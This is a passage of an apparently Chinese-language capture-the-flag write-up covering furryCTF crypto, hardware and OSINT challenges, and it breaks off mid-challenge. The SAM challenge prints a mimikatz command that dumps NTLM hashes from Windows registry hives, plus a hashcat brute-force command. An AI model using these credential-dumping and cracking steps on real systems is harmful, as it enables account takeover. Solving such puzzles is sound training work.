

解法是画图，发现按顺序读取就可以了。如果说是12345，读取顺序就是24135。

> furryCTF{A_New_Interest1ng_Rail_Fence_C1pher}

### g. [crypto]Scratch

```text
猫猫用Scratch 3.0写了一个小程序。
```

找一个在线网站直接把程序弄上去。[Scratch 3.0 网页版 - 在线学习少儿编程](https://scratch.focalhot.com/)



一眼ASCII。

```python
data = []
data.append(['102','117','114','114','121','67','84','70','123','76','105','102','101','95','49','115','95','83','105','110','103','49','110','103','125'])


for sublist in data:
    ascii_str = ''.join([chr(int(i)) for i in sublist])
    print(ascii_str)
 '''
 furryCTF{Life_1s_Sing1ng}
 '''
```

> furryCTF{Life_1s_Sing1ng}

### h. [crypto]MD5

```text
猫猫找到了以前存起来的4个MD5值：

45c21d962131b80744fe6486cd24fd0c
8fb395ce2928cbff098b2155f7eefef7
fba373ec33f112d6fc74651cedc0c6c0
639849f6b368019778991b32434354fc
只不过猫猫把原文给忘了，所以他就麻烦你帮他找一下原来的内容。xwx

猫猫唯一能记起的hint是：这4个MD5值对应的原文长度都不少于5且不超过7，且都只含有小写字母。

提交格式为：furryCTF{第1个MD5的原文_第2个MD5的原文_第3个MD5的原文_第4个MD5的原文}
```

hashcat暴力破解

> furryCTF{furlary_furbbs_seeyou_again}

### i. [crypto]SAM

```text
猫猫不小心把自己设的密码给忘了，你能帮猫猫恢复一下嘛？

注：flag格式为furryCTF{furryCTF账户的密码}


Hint：猫猫给你准备了一份工具：（这也是猫猫唯一记得的东西了）

?l?l?l?l?l?s......（最后三位忘了.jpg）
```

```bash
mimikatz # lsadump::sam /system:"D:\SYSTEM.hive" /sam:"D:\SAM.hive"
Domain : WIN-UO71U56EMEP
SysKey : a2ed516b7432a048a25ac616229b8d8e
Local SID : S-1-5-21-809755402-3647908053-3505941203

SAMKey : eb70dcc2ef32e77169851d92b7c3512c

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 31d6cfe0d16ae931b73c59d7e0c089c0

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : furryCTF
  Hash NTLM: 861bd8bac91cac40013172f47ab784a4
```

然后用hashcat硬爆

```bash
hashcat -m 1000 -a 3 -O -w 3 861bd8bac91cac40013172f47ab784a4 "?l?l?l?l?l?s"
```

> furryCTF{robin@0w0}

### j. [crypto]粗心的猫猫

```text
猫猫最近在研究现代密码学，并且写了一个RSA加密程序。
```

又是伪加密，，，密码题还是安心做密码吧。



改成00



一样00。

拿到RSA.py

```python
import gmpy2  
import random

def generate_large_prime_by_digits(n):  
    random_num_str = ''.join(random.choices('0123456789', k=n)) 
    random_num = gmpy2.mpz(random_num_str)  
    if random_num < (10 ** (n - 1)):  
        random_num = gmpy2.mpz('1' + random_num_str) 
    large_prime = gmpy2.next_prime(random_num) 
    return large_prime  

p = generate_large_prime_by_digits(1024)
while True:
    q = generate_large_prime_by_digits(1024)  
    e=65537
    n=p*q
    code=int(input("flag is:"))
    enc=pow(code,e,n)
    print("enc=",enc,"n=",n)
```

发现两个数有公因数，省去了很多麻烦

```python
import math
from Crypto.Util.number import long_to_bytes
enc1=14177645175039229116346030403132099232252291153135307407968472015386303969683440897768815154592798117707771834485750461958443494947077758686797445730457810973274288497317238758699116770492362164018314656983870227104328935858969940914375276048149445994058151332456001392503777508200612633803312738586770586755013253205953269657307673778973476227494712144720441189698203045625466899244934392249740966985280244968876913636228035050537977472852346681757901914549624771278966903150572142886596754698966732044532202038232827298624740542580907036703357527815925181548750101170784981364664580512451534103637029856932407134866372713573545050892181185667064803687344711738898892838348108679006582429550280239878299713862061257101727544519979298670679547873030689357800544769896490678581665642152338087552510986570351080648866785919010250813510930181871917743091330970945292451475777264717478411897482788457237513337893000855934977851366995648686944439625119226736305985408249926817752951238053324680244459535284276788239830947558347535661273319272484426815624119065243814479879857227145702378384759185314521936222526848877809462669205720864948586639549366689439976188939046094706634697938828506448713318664719793526508677047964791882055229097094781355551992321052050659928504783119721120774623169080609520865738446131354441282017108450334959907176316850807504353060288090773899541830156545907659887546868659349496971137510457219070328808047883992985109715387908536371129932819658627586772048725108230180498906483055208587614479396813916197684987133676920294287905763418186855940039145683340370669962759840202308485657591957590273832469518324770544333477076900023293723036842238146047083500015962610279943202343016823333927538123149146284856126566138456780044758422390128056433588123572267326282082937925150760280856896266334230763089077110273446705797808420211653823402873724031368031219469218762817642063689845991466836385443863409322164086224047368995544586280661464612101614921197417828356003039287413996830974696626978384439317161695922653499755056482841
enc2=26162251544508466890070191964679264288893353926870503027691254953312191556684251947807814586453041496816639733574613892245624244877843107947565796313457194963208325796988223044064892814325707024528827030802948274915478204788104449836384686169322580027191798180813431580898555764632641647535612676747296288827765675463660172227412267723222383647473303734628967551408240956232319918348693947645297236054226598130464959335532033084165269324316618922280855397975109539489134940481155989084475003067357816329908760537157968407340656370839454988169783339032914275049500945325863792304594192826077002581591970845442698320276520419060791254359476911742803322114856712234986731006246531848508603696928662196916457150211360394583828549091160767463715973692927058093825435783662276508035138292279290836204799336817390106695508727040786902030579902450072228423771991876309125719590469504537797549763675722876102534890858928956413005808234744878814694573033993105703716967990518156285028069943141319206388659621307840924798127839801406493648643969417944385364820308194009820320607560867988969373379715905674016175563460397330367394266967180469900959079819267038485265902970730830624026199961979246057896679772574903852842889891339318967604727744853627746605687461156426328974562253263509520341682380858757642882393794738791627549114887152936918742029795248214734720412133874924161613147630008938562295453329166343854648914039709258181774591561592677697577779302334437159622097962960078001821164078717826789612269587427654061328830525941861695072108356879842329323000277127133293343882353731332824506730600558797223843963673416340608614100563546419159210788513861816586307484855129068272203174596011113558940866771836595482385622769261974335282220140700873797519645754413108291608283298091121292292350675626531772757165287991317977172272361081824102837366284640980279170762837757567358802727304255814836085096049770668496063200469123152330875795029909452148123356549846332589784598374541693710421863415012665601709545241807318867304931303818238833853837035948870

n1=30745491530122879400518486621602256054973057923900771168403110634188294124502432709632933430848789900189078343115945431450686349232084275364545861020708681216881765525862734737908688203275285993930005100510107762395515899052231962031985138469061344365852348996998192184111067123795516065284740659886774408179778123783502601795937052777831259636639329157238353999494552818705440542942097816920896093282675889964220588000376215746417695291594831174247405017434081552600325687175438136881470593856760751448481410808740665850992158083323113336282042374334884980480012143987125446134759591946586879081505269606936484303557743065043322812558823065284284100585531871479533653224139777841581956754285996495821935399529917803157433205142554813117950202537530052956685332986560982348661792856411686196249377915055649807035410028458790920513246934620036890989396467883982357861109253912583608475681275998581700326411899137861827702848394086593752739353883604262237089901712663993724409410222066118467304132035358619878798982201562642721942455877880668399319640149596412038590881508629251591778667832999168042820189045630276789368395901265283868698844558656911576177324913284521263941716367415579801466590370536585137433608102659096941626193153016703441104162821021065068667560750265595439328354928248383263724551044205122645293613142958564875090804562445003121487724742342529385740444587596244204487319057906103570010607540402610100420093016319750045358514613279630555229286744244429175749601623502903548522821431318720445706345525093997559659428740073449880661168612541342687651350623646726744552291522360811984362661430230303172424899229546739980187112694344175678256245561193211293068270484672460938073898842212282782923580857297249287086814621821075488217745963982698850372648105237125447812196622464007557811804768729894730139946910522493622894173283538211595094156020820590412319518558929728556120409803807179067385280151028030011677208491374412001396561347983633348644256902247651974647611633375142855593147598498932826307352068990073657755365728223043
n2=35737323411073741114961714260656125394132606804020984164543763980478354102159517065444978781264155197959928127831509585956386290009269911835788065969587358257262896331932956821291330741654387008671774336025815027779391493859717496473553388651951333602538396538209172485674227493032899223003553373323704646870194280960604152822412195000849402012345751154164197522819783651903181873938752004083859340110653761498932090351298912934287372166527752376510782932601767161104552376821239774898673557435364318268269957599761844422672224127292974145924194504555457715003635483514719923221432735092520927926791840963132792312781481516531958409130693697891296860018978480591462854044278197989229051248184268166507997666199327373260445782398317972077620909605544579844550551664247807955506178068137492372729438769641790579761017534193486279727074998018789482171816327307834469847532283742644839394847655903927847523317704534797895013275056685761182874806752021728172244749478525508165133599693135248007513243871587134825639203106549854818245071662657076168233725557602788957225514413159668344035253695539296736301045991767028321240920449333831281572579276557425183946880142154768659295624552890705761061809649034188214811161615554539489523812770660217655155997744320423381695120994162639146580540534563977056173830826481807909753853803142753391477987696561631372884688094573933523265311176664699318409919286195854649637306825330566543884851561638412970863983262969547256679975323156207950395516091428013066881945410181139651894293908127059062074298220680879172602968513488592925539828405773142799725777259859041365566829194041543312290657560094612314708605983631596352529345237189100068498343643523337777597827349121696096327006359505140020134588093412371093020471218992994087141428767914856991157497076722726504987564562332952143888856525593184515804690053801647861690663392819697465111934397807519141170892942315292041047080743773218852945875468678252618099102527395365927510297971236749734752498856875174508736519852041023396136433894036549064995215861124363

def calculate_q1_q2(n1, n2):
    p = math.gcd(n1, n2)

    q1 = n1 // p
    q2 = n2 // p

    return p, q1, q2

p, q1, q2 = calculate_q1_q2(n1, n2)
def extended_gcd(a, b):
    if b == 0:
        return a, 1, 0
    gcd, x1, y1 = extended_gcd(b, a % b)
    x = y1
    y = x1 - (a // b) * y1
    return gcd, x, y

def mod_inverse(e, phi_n):
    gcd, x, y = extended_gcd(e, phi_n)
    if gcd != 1:
        raise Exception("模逆不存在")
    return x % phi_n

def rsa_decrypt(p, q, enc, e=65537):
    n = p * q
    phi_n = (p - 1) * (q - 1)
    d = mod_inverse(e, phi_n)
    plain = pow(enc, d, n)
    return plain

plain = rsa_decrypt(p, q1, enc1)
print(long_to_bytes(plain))
'''
b'furryCTF{The_Eas9_RSA_Enc0de_1n_furryCTF}'
'''
```

> furryCTF{The_Eas9_RSA_Enc0de_1n_furryCTF}

## Hardware

### l. [hardware]Charge

```text
猫猫平时随身都会携带这样一个充电宝：
```



```
现在有几个问题：
 1.这个充电宝的容量是多少mAh？
 2.这个充电宝半个小时内可以为iPhone 14 Pro冲多少%的电量？
 3.该款充电宝的详细型号为什么？
对于以上问题，请按照flag格式：furryCTF{T1_T2_T3}提交答案。示例：furryCTF{5000_10_ABCDE}
```

谷歌识图找到了充电宝的名字,然后在https://www.chongdiantou.com/archives/196079.html里面找到了详细的测评信息。




> furryCTF{20000_50_PPJL65C_453}

### n. [hardware]显示屏

```text
出题人：石灰

狼狼最近搞到了一个音源，但是发现屏幕似乎坏掉了。
```



```text
注：flag格式为furryCTF{屏幕型号_屏幕驱动芯片型号}，例如furryCTF{LCD-1602_UC1617}
```

在https://www.synthxl.com/roland-sc-8850/里下载到了Service Notes，在里面找到了配件表和电路图。





然后进一步在PARTS LIST里找到了详细的芯片名称



> furryCTF{DMF51026NU-LA_SED1335}

## Osint

### o. [osint]人文风景

```text
猫猫这一天出去吃饭，顺手就对着饭店对面拍了一张。
注：flag格式为furryCTF{饭店名称}，例如全聚德对应的flag就是furryCTF{quanjude}
```


通过电话号码发现了所在地在安徽省阜阳市，然后瞪眼看出来”南京理工大学“下面是“x首招生办公室”，推测前面两个字是一个地名（毕竟不能是自首招生办公室吧x）在加上在安徽省的信息，搜索“安徽省 阜阳市 首”，找到了安徽省阜阳市界首市（好怪的区名）



比对了一下原图确信了的确在界首市

之后尝试了多种搜索组合，搜索了“界首”招生办公室南京理工大学的时候发现了抖音里出现了完全符合的视频信息




于是确定了公司的全名，之后在高德地图里搜索全称，找到了地点





> furryCTF{laoliuchuantongzhengcaiguan}

### p. [osint]循迹

```text
猫猫的朋友fufu出去吃饭，给猫猫发来了这样两张图片。
猫猫：这么多辣椒……嘶……你们不嫌辣嘛xwx……
注：flag格式为furryCTF{Image2所在的店铺名称}，比如家乐超市对应的flag就是furryCTF{jialechaoshi}
```

Image1


Image2


image1上面有个即墨古城，对比一下这个锅和火锅，美团上搜搜附近的火锅店，秒了。

> furryCTF{dezhuanghuoguo}

### q. [osint]神秘影片

```text
因为一众人吐槽猫猫上次出题让他们看了半天萨卡班甲鱼，所以猫猫决定这次反着来：

音频给你们，自己来找吧~
```

网易云识别，然后在评论里面看到。


<https://www.bilibili.com/video/BV1Bf4y157pa>

很炫酷呢。

> furryCTF{BV1Bf4y157pa}

### r. [osint]出勤！

```text
猫猫想找朋友玩，朋友却说他去出勤了，顺带拍了一张照片给猫猫。
注：flag格式为furryCTF{当时所有机种按照名称A-Z排序后:机器台数-价格}，比如假设该区域有以下机器：
```

| 机器名称 | 使用价格（非单曲价格！） | 台数 |
| --- | --- | --- |
| maimai | 5 | 3 |
| 头文字D | 3 | 2 |
| 太鼓之达人 | 7 | 1 |

```text
